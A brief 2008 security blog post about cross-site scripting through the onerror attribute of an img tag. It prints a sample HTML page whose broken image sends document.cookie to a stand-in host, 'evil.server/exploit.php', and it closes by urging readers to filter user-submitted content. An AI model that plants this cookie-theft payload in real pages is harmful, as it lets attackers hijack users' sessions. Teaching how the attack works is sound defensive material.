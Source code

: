 ```yaml
---
title: XSS with Img OnError attribute
date: 2008-03-20
tags:
- javascript
- php
- security
---
```

So much of my time is spent worrying over the src or href tags on images and links - that I sometimes forget about the other attributes.

<!--more-->

Imagine being able to make an image which has no black-flagged content in the src but yet can still make a remote request, logging the user's cookie information?  That's right - this can be done - using the `onerror` attribute of an image.

What you need to do is to create an image link that is obviously broken or empty.  Then, javascript handles such events by throwing an error for that element.  Add an item to the `onerror` attribute to request a remote URL as your images src - which you add on document.cookie.  The remote script logs all requests, and then displays an image.

Check out the code below:

Source page without proper filtering:

```html
<html>
  <body>
    <h1>test</h1>
    <h2>asdf</h2>
    <img onerror="this.src='http://evil.server/exploit.php?'+document.cookie" src=""></img>
  </body>
</html>
```

Then, on `evil.server`, place your image.  Finally, top it off with the following code in **`exploit.php`**

Easy as that.  Just another reminder to properly filter your use submitted content.
